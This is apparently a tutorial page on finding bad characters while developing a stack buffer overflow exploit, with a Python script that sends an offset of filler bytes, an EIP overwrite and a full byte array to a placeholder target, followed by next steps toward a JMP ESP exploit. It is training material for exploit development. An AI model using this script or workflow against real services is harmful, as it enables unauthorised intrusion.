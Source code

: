 # Finding Bad Characters

## Overview
When developing buffer overflow exploits, certain characters may be filtered, modified, or misinterpreted by the target application. These "bad characters" must be identified and excluded from shellcode to ensure successful exploitation.

## Key Concepts

- **Bad Characters**: Bytes that are altered, filtered, or cause issues when processed by the target application
- **Purpose**: Identify all characters that cannot be used in shellcode
- **Common Bad Characters**: Null byte (\\x00), carriage return (\\x0D), line feed (\\x0A), etc.

## Process

1. **Generate Character Array**: Create a byte array containing all possible characters (\\x00 through \\xFF)
2. **Create Test Buffer**:
   - "A"s up to the offset
   - "B"s to overwrite EIP (4 bytes)
   - Character array to test for bad characters
   
3. **Send to Target**: Send the crafted buffer to the vulnerable application
4. **Analyze Memory**: Examine the memory dump to identify which characters are corrupted or missing
5. **Refine and Repeat**: Remove identified bad characters and test again until all bad characters are found

## Python Script Example

```python
#!/usr/bin/python
import socket, sys

# All characters from \x00 to \xFF except known bad chars
badchars = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

offset = 2040  # Replace with your confirmed offset
buffer = b"A" * offset + b"B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('TARGET_IP', TARGET_PORT))
    s.send(('COMMAND ' + buffer.decode(errors='ignore') + '\r\n').encode())
    s.close()
    print("Bad character buffer sent")
except:
    print("Error connecting to server")
    sys.exit()
```

## Analysis Techniques

1. **Visual Inspection**: Compare the memory dump with the original character array
2. **Sequential Analysis**: Check if each byte appears correctly in sequence
3. **Pattern Disruption**: Look for where the sequence gets corrupted
4. **Iterative Refinement**: Remove identified bad characters and test again

## Common Bad Characters

- **\\x00** (Null byte): Almost always a bad character, terminates strings
- **\\x0A** (Line feed): Often problematic in text-based protocols
- **\\x0D** (Carriage return): Often problematic in text-based protocols
- **\\xFF**: Can cause issues in some applications
- Application-specific characters: Depend on how the application processes input

## Important Considerations

- The null byte (\\x00) is almost always a bad character
- Some characters may cause others to be misinterpreted
- Testing must be methodical and thorough
- Missed bad characters can cause shellcode to fail
- Some applications may have multiple bad characters

## Next Steps After Identifying Bad Characters

After identifying all bad characters:
1. Find a suitable module with a "JMP ESP" instruction
2. Generate shellcode avoiding the identified bad characters
3. Complete the exploit with the appropriate memory structure
